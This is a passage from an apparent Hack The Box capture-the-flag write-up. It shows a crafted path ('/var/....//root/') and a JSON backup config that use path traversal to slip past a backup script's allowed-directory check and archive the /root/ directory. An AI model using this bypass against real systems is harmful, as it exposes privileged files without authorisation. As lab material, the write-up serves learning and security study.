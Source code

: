 ![/root/ dir usage](/assets/images/writeups/Code-HTB/22.png)

An error occurred because only the `/var/` and `/home/` directories were allowed.  

I used a path traversal trick to bypass path validation and include the `/root/` directory.  

**Crafted path**

```bash
/var/....//root/
```

If `backy.sh` was only checking for the existence of the `/var/` directory and not validating the full path, then the crafted path would bypass the check and archive the `/root/` directory.  

```json
{
	"destination": "/home/martin/backups/",
	"multiprocessing": true,
	"verbose_log": true,
	"directories_to_archive": [
		"/var/....//root/"
	]
}
```

![Success](/assets/images/writeups/Code-HTB/23.png)
